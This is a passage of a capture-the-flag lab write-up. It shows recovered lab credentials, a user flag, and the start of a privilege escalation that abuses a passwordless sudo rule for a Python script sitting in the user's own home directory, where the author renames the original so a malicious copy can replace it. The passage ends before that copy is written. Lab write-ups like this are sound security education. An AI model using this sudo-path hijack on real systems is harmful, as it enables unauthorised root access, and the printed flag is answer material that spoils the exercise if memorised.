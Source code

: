 ```html
unset($_SESSION['favcolor']);
header("Refresh: 0.1; url=index.html");
}
?>

```


We got some credentials:

```
cyber:super#secure&password!
```

![](cybersecurity/images/Pasted%2520image%252020250425131719.png)


Let's begin PrivEsc.


# PRIVILEGE ESCALATION
---

```
cyber@ubuntu:~$ cat flag1.txt
THM{6f7e4dd134e19af144c88e4fe46c67ea}
```

If we check our privileges, we can notice this:

```
cyber@ubuntu:~$ sudo -l
Matching Defaults entries for cyber on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User cyber may run the following commands on ubuntu:
    (root) NOPASSWD: /usr/bin/python3 /home/cyber/run.py
```

Let's check that file then:

```
cyber@ubuntu:~$ ls -la run.py
-rwx------ 1 root root 349 Nov 15  2020 run.py
cyber@ubuntu:~$ cat run.py
cat: run.py: Permission denied
```

Only `root` can visualize or edit the file, the vulnerability on here lays on the path, since the script is inside of `cyber`, we can modify the file into another extension and create a malicious `run.py` file:

```bash
mv run.py run.py.php
```

